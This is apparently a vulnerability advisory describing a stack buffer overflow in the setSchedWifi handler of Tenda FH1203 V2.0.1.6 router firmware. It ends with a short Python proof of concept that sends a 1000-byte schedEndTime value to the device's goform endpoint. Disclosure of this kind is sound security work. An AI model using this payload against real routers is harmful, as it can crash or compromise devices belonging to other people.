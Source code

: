 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v6` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v6);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305225509194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225509194.png)

![image-20240305225530022](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225530022.png)

![image-20240319134434006](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134434006.png)

![image-20240319134449058](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134449058.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014506111.png)
